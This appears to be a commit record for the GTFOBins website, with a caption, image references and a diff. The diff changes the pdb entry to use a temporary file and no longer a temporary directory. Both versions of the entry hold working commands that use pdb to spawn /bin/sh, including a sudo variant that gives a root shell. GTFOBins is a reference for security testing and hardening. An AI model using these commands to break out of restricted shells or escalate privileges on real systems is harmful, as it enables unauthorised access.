

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pdb.md, in a window 1280 px wide. Shown: the part 158-603 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Avoid temp directory in pdb

```diff
--- a/_gtfobins/pdb.md
+++ b/_gtfobins/pdb.md
@@ -2,14 +2,14 @@
 functions:
   shell:
     - code: |
-        TF=$(mktemp -d)
-        echo 'import os; os.system("/bin/sh")' > $TF/x
-        pdb $TF/x
+        TF=$(mktemp)
+        echo 'import os; os.system("/bin/sh")' > $TF
+        pdb $TF
         cont
   sudo:
     - code: |
-        TF=$(mktemp -d)
-        echo 'import os; os.system("/bin/sh")' > $TF/x
-        sudo pdb $TF/x
+        TF=$(mktemp)
+        echo 'import os; os.system("/bin/sh")' > $TF
+        sudo pdb $TF
         cont
 ---
```
